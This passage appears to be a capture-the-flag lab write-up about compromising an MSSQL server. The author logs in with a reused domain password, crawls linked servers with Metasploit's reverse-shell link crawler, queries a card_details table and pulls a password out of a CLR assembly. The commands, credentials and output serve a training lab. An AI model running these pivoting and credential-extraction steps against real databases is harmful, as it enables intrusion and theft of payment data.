




Since the owa worked, I guess not we can use karl credentials to login into DB and poke around. Seems like it uses the windows authentication:

```
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.13.37.12:1433      - 10.13.37.12:1433 - MSSQL - Starting authentication scanner.
[!] 10.13.37.12:1433      - No active DB -- Credential data will not be saved!
[-] 10.13.37.12:1433      - 10.13.37.12:1433 - LOGIN FAILED: TEIGNTON\karl.memaybe:B6rQx_d&RVqvcv2A (Incorrect: )
[-] 10.13.37.12:1433      - 10.13.37.12:1433 - LOGIN FAILED: TEIGNTON\karl.memaybe: (Incorrect: )
[*] teignton.htb:1433     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mssql/mssql_login) > set use_windows_authent true
use_windows_authent => true
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.13.37.12:1433      - 10.13.37.12:1433 - MSSQL - Starting authentication scanner.
[!] 10.13.37.12:1433      - No active DB -- Credential data will not be saved!
[+] 10.13.37.12:1433      - 10.13.37.12:1433 - Login Successful: TEIGNTON\karl.memaybe:B6rQx_d&RVqvcv2A
[*] teignton.htb:1433     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mssql/mssql_login) >
```

This time we can see that Karl can indeed access those Links in MSSQL but unfortunately Metasploit couldn't invoke a RCE for us which means we have to poke manually:

```
msf6 exploit(windows/mssql/mssql_linkcrawler) > run

[*] Started reverse TCP handler on 10.10.14.4:7777 
[*] 10.13.37.12:1433 - -------------------------------------------------
[*] 10.13.37.12:1433 - Start time : 2023-07-31 11:01:21.699051658 +0200
[*] 10.13.37.12:1433 - -------------------------------------------------
[*] 10.13.37.12:1433 - Attempting to connect to SQL Server at 10.13.37.12:1433...
[+] 10.13.37.12:1433 - Successfully connected to WEB\WEBDB
[*] 10.13.37.12:1433 - 
[*] 10.13.37.12:1433 - -------------------------------------------------
[*] 10.13.37.12:1433 - Crawling links on WEB\WEBDB...
[*] 10.13.37.12:1433 - Links found: 1
[*] 10.13.37.12:1433 - -------------------------------------------------
[*] 10.13.37.12:1433 - Link path: WEB\WEBDB -> WEB\CLIENTS
[*] 10.13.37.12:1433 - -------------------------------------------------
[*] 10.13.37.12:1433 - End time : 2023-07-31 11:01:22.659949816 +0200
[*] 10.13.37.12:1433 - -------------------------------------------------
[+] 10.13.37.12:1433 - Results have been saved to: /root/.msf4/loot/20230731110122_default_10.13.37.12_crawled_links_977306.txt
[*] Exploit completed, but no session was created.
msf6 exploit(windows/mssql/mssql_linkcrawler) >
```

Now I suggest to list for all available DB into WEB\\CLIENTS, we can use the easy name convection like (select * from \[LINKEDSERVER\].master.x.x.x.):

```Bash
SQL (TEIGNTON\karl.memaybe  guest@master)> SELECT name FROM [WEB\CLIENTS].master.dbo.sysdatabases;
name      
-------   
master    

tempdb    

model     

msdb      

clients   

SQL (TEIGNTON\karl.memaybe  guest@master)>
```

Now let's poke that client's DB:

```Bash
SQL (TEIGNTON\karl.memaybe  guest@master)> SELECT * FROM [WEB\CLIENTS].clients.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME     TABLE_TYPE   
-------------   ------------   ------------   ----------   
clients         dbo            card_details   b'BASE TABLE'
```

Now It's tedius to do this job without a GUI so I opened the connection in SSMS in my Windows machine(used this reference https://stackoverflow.com/questions/849149/connect-different-windows-user-in-sql-server-management-studio-2005-or-later)

From the client's credit cards we could grab another flag:



Next in the DB we could see the existence of MSSQL CLR(basically it gives the possibility to import custom .ddl into DB and use it as Stored procedures): https://www.netspi.com/blog/technical/adversary-simulation/attacking-sql-server-clr-assemblies/

First we need to find them:



That clientsbackup seems nice, let's see if we can read it's content:



Good, content is what we are looking for, now we need to convert that hex code into a DDL or cleartext and the easiest is to use Powershell in Linux together with PowerupSQL:

```Bash
C:\Users\AleksandarMilosavlje\Downloads\PowerUpSQL-master> Get-SQLServerLink -Instance TEIGNTON -Username 'TEIGNTON\karl.memaybe' -Password 'B6rQx_d&RVqvcv2A' | Get-SQLAssemblyFile -ExportFolder C:\Users\AleksandarMilosavlje\Downloads\PowerUpSQL-master\
```

Unfortunately i couldn't make it work from PowerUPSQL so I used the old "Copy-Paste" method with some convert from HEX --> BINARY:

```Bash
└─# xxd -r -p clientsbackup.hex clientsbackup.dll                                                                                                                                            

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CONTEXT]
└─# file clientsbackup.hex 
clientsbackup.hex: ASCII text, with very long lines (18434)

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CONTEXT]
└─# file clientsbackup.dll 
clientsbackup.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Opening again the .dll with Codemerx Decompiler we can get the Jays password:



And guessing that is the credentials of JAY, and as we know he have PSRemote access which mean we can login via WIN-RM.